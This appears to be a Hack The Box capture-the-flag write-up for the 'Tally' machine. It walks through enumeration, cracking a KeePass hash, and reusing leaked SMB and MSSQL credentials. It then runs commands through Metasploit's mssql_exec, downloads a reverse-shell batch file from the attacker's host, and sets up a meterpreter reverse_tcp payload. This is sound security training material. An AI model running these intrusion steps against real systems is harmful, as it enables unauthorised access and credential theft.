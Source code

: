# Tally
#### 10.10.10.59
###### Dotaplayer365


```
nmap 10.10.10.59

PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
81/tcp   open  hosts2-ns
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
808/tcp  open  ccproxy-http
1433/tcp open  ms-sql-s
```


Checking the port 80 shows us that its a Sharepoint server.

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Tally/images/Website.PNG"></kbd>


When in Thermopylae call a SPartan
Resource: http://github.com/sensepost/SPartan


<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Tally/images/Spartan.PNG"></kbd>

One of the pages we find has something juicy!
```
...
[+] [147][200][62875b] - http://10.10.10.59/Shared%20Documents/Forms/AllItems.aspx
...
```
<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Tally/images/Allitems.PNG"></kbd>

Lets download "ftp-details.docx and see what its got
```
FTP details
hostname: tally
workgroup: htb.local
password: UTDRSCH53c"$6hys
Please create your own user folder upon logging in
```

Interesting

Now we know the ftp password.

We would just need to guess the ftp user

My general guesses as always are (root, ftpuser, ftp_user, ftp-user, ftp, user and afcourse anonymous logins)

You can call me a wordlist cause one of them worked!! :D

FTP Username: ftp_user
FTP Password: UTDRSCH53c"$6hys
```
ftp 10.10.10.59
Name (10.10.10.59:root): ftp_user
Password:
230 User logged in.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-31-17  10:51PM       <DIR>          From-Custodian
12-08-17  09:01AM       <DIR>          Intranet
08-28-17  05:56PM       <DIR>          Logs
09-15-17  08:30PM       <DIR>          To-Upload
09-17-17  08:27PM       <DIR>          User
226 Transfer complete.
```

As we remember it was instructed that the person create his own folder when he logs in.

So we go into Users and try searching for something nice

Under /User/Tim/Files we find something Nice !!
```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
09-15-17  07:58PM                   17 bonus.txt
09-15-17  08:24PM       <DIR>          KeePass-2.36
09-15-17  08:22PM                 2222 tim.kdbx
```

Lets get brute forcing

Create a hash using keepass2john
```
root@kali:~/Hackthebox/Tally# keepass2john tim.kdbx 
tim:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da5f0f
```

Hashcat GG
```
.\hashcat64.exe -m 13400 .\hash.txt .\rockyou.txt  --show
$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da5f0f:simplementeyo
```
Keepass Password: simplementeyo

After opening the kdbx with the new password we get some data which looks like this
```
TALLY ACCT share : Finance : Acc0unting
CISCO : cisco : cisco123
PDF Writer : 64257-56525-54257-54734 : 
```



=> SMB SHARE:
smbclient -L tally.htb -U Finance
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\Finance's password: 
Domain=[TALLY] OS=[Windows Server 2016 Standard 14393] Server=[Windows Server 2016 Standard 6.3]

	Sharename       Type      Comment
	---------       ----      -------
	ACCT            Disk      
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Connection to tally.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
NetBIOS over TCP disabled -- no workgroup available


=> MOUNTING THE ACCT: mount -t cifs -o username=Finance,password=Acc0unting //10.10.10.59/ACCT /mnt
Strings zz_Migration\Binaries\New folder\tester.exe
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;

=>  use auxiliary/admin/mssql/mssql_exec
Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting                                  Required  Description
   ----                 ---------------                                  --------  -----------
   CMD                  cmd.exe /c type C:\Users\Sarah\Desktop\user.txt  no        Command to execute
   PASSWORD             GWE3V65#6KFH93@4GWTG2G                           no        The password for the specified username
   RHOST                10.10.10.59                                      yes       The target address
   RPORT                1433                                             yes       The target port (TCP)
   TDSENCRYPTION        false                                            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa                                               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false                                            yes       Use windows authentification (requires DOMAIN option set)

user.txt
be72362e8dffeca2b42406d5d1c74bb1


=> SHELL:
Use veil (22) powershell meterpreter reverse tcp
Get code in Tally1.bat
Start Listner

use auxiliary/admin/mssql/mssql_exec
PASSWORD             GWE3V65#6KFH93@4GWTG2G 
RHOST                10.10.10.59

set CMD powershell.exe /c Invoke-WebRequest -Uri 10.10.14.198/Tally1.bat -OutFile C:\\Users\\Sarah\\rev.bat
run
set CMD cmd.exe /c C:\\Users\\Sarah\\rev.bat
run

=> upgrade to x64
use windows/local/payload_inject 
set payload windows/x64/meterpreter/reverse_tcp

=> Root Potato Doh!


![Alt test](https://media.giphy.com/media/hKNPxrffFH0GY/giphy.gif "Suuure")
